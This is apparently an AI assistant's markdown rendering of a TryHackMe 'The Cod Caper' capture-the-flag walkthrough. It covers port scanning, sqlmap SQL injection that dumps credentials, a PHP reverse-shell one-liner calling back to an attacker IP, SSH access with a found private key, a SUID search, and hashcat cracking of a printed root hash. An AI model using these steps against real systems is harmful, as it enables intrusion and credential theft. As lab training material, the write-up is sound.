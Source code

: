 Got it 👍 — you want the **entire thing directly in `.md` format** so you can copy-paste into a `README.md`.  
Here’s the full conversion of your original write-up into proper markdown:  

---

```markdown
# 🐟 TryHackMe - The Cod Caper

My solution for the room: [The Cod Caper](https://tryhackme.com/room/thecodcaper)

![thm1](https://user-images.githubusercontent.com/67475596/103531558-e71f3400-4e89-11eb-96a5-9e29f9b15173.png)  
![thm2](https://user-images.githubusercontent.com/67475596/103531561-e7b7ca80-4e89-11eb-9f11-b9698347ab12.png)  

---

## 🔎 Host Enumeration

The first step is to see what ports and services are running on the target machine.  

**Recommended Tool:** `nmap`  
**Useful Flags:** `-p -sC -A`  

To answer these questions, scan the machine with nmap and analyze the results.

```bash
nmap -A <IP> -vv
```

![nmap](https://user-images.githubusercontent.com/67475596/103458587-e65f9400-4d09-11eb-85da-2f2e1c717200.png)

We can see two ports open:  
- 22 → ssh  
- 80 → http  

**Questions:**  
1. How many ports are open on the target machine? → `2`  
2. What is the http-title of the web server? → `Apache2 Ubuntu Default Page: It works`  
3. What version is the ssh service? → `OpenSSH 7.2p2 Ubuntu 4ubuntu2.8`  
4. What is the version of the web server? → `Apache/2.4.18`  

---

## 🌐 Web Enumeration

Since only SSH and Apache are running, let’s check the web server for possible vulnerabilities.  

**Recommended Tool:** `gobuster`  
**Useful Flags:** `-x --url --wordlist`  
**Wordlist:** `big.txt`  

If we open the IP in a browser, we see the default Apache2 Ubuntu page.  
Now let’s scan with gobuster to enumerate directories and files.

```bash
gobuster dir -u http://IP/ -w big.txt -x .php,.html,.txt
```

![gobuster](https://user-images.githubusercontent.com/67475596/103477366-9262b700-4dbe-11eb-8479-c080708fcaa9.png)

📌 We found an important file!  

**Question:**  
- What is the name of the important file on the server? → `administrator.php`  

---

## 💉 Web Exploitation

The admin page gives a login form. First check for low-hanging fruit like SQL Injection.  

**Recommended Tool:** `sqlmap`  
**Useful Flags:** `-u --forms --dump -a`  

On `IP/administrator.php`, we have an admin login form.  

![login](https://user-images.githubusercontent.com/67475596/103477577-8c6dd580-4dc0-11eb-9179-4bf229f46f7e.png)

First, intercept the HTTP request with **BurpSuite**, save it as `request.txt`, then run sqlmap:  

```bash
sqlmap -r request.txt -D users --tables
sqlmap -r request.txt -D users -T users --dump
```

![sqlmap1](https://user-images.githubusercontent.com/67475596/103477764-0c486f80-4dc2-11eb-8381-22f1d908bc69.png)  
![sqlmap2](https://user-images.githubusercontent.com/67475596/103477797-592c4600-4dc2-11eb-98a8-ae36a56d3c15.png)  
![sqlmap3](https://user-images.githubusercontent.com/67475596/103477822-9a245a80-4dc2-11eb-9629-02cb1b129a2b.png)

We found usernames and passwords!  

![user pass sqlmap](https://user-images.githubusercontent.com/67475596/103477845-d9eb4200-4dc2-11eb-906a-61f035ae8e09.jpg)

**Questions:**  
1. What is the admin username?  
2. What is the admin password?  
3. How many forms of SQLi is the form vulnerable to? → `3`  

![sql1](https://user-images.githubusercontent.com/67475596/103491639-d9d05e00-4e25-11eb-88be-fbc4db8cef33.png)  
![sql2](https://user-images.githubusercontent.com/67475596/103491642-dc32b800-4e25-11eb-88b2-7026454113c4.png)  
![sql3](https://user-images.githubusercontent.com/67475596/103491644-dccb4e80-4e25-11eb-8d12-2ab8077ca7ef.png)  

---

## ⚡ Command Execution

With the credentials from sqlmap, we log in.  

We get another form:  

![run_command](https://user-images.githubusercontent.com/67475596/103491811-f8832480-4e26-11eb-99ef-e6f307ee9b77.png)

Let’s try to get a reverse shell with **netcat**. First, prepare a PHP shell:  

```bash
php -r '$sock=fsockopen("YOUR_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Run netcat on attacker machine:  

```bash
nc -lvnp 4444
```

![run netcat](https://user-images.githubusercontent.com/67475596/103491944-db028a80-4e27-11eb-9bd4-928918dcc68d.png)

If successful, we get access to the target:  

![netcat](https://user-images.githubusercontent.com/67475596/103492037-93c8c980-4e28-11eb-868b-df6845cd33a9.png)

**Questions:**  
1. How many files are in the current directory? → `3`  
2. Do I still have an account? → `yes`  
3. What is my ssh password? → Path: `/var/hidden/pass`  

![pass ssh](https://user-images.githubusercontent.com/67475596/103492201-85c77880-4e29-11eb-9f81-0afbb665caa3.jpg)  

---

## 🔑 LinEnum

**Question:** What is the interesting path of the interesting SUID file?  

First connect via SSH using the key at `/home/pingu/.ssh/id_rsa`.  

```bash
ssh -i ssh_key.txt pingu@IP
```

![ssh](https://user-images.githubusercontent.com/67475596/103492363-afcd6a80-4e2a-11eb-8319-386995457d0d.png)

To list all SUID binaries:  

```bash
find / -perm -u=s -type f 2>/dev/null
```

![suidfiles](https://user-images.githubusercontent.com/67475596/103530465-c7870c00-4e87-11eb-9dba-cd558909834c.png)

---

## 🛠 pwndbg

No answer needed.

---

## 🛠 Binary Exploitation (Manually)

No answer needed.

---

## 🛠 Binary Exploitation (Pwntools)

No answer needed.

---

## 🔓 Finishing the Job

Now that we have the password hashes, we can crack them to get the root password.  

Root hash:  

```
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.
```

Usage with hashcat (mode 1800):  

```bash
hashcat -m 1800 hash.txt wordlist.txt
```

---

## ✅ Conclusion

We exploited **The Cod Caper** using:  
- Enumeration (`nmap`, `gobuster`)  
- SQL Injection (`sqlmap`)  
- Command Execution (reverse shell)  
- Privilege Escalation (SUID, ssh key, password cracking)  

🚩 Room Completed 🎉
```

---

This is **ready to paste directly into a `README.md`** file.  

Do you want me to also add a **Table of Contents** at the top (with links to each section) so it’s easier to navigate on GitHub?
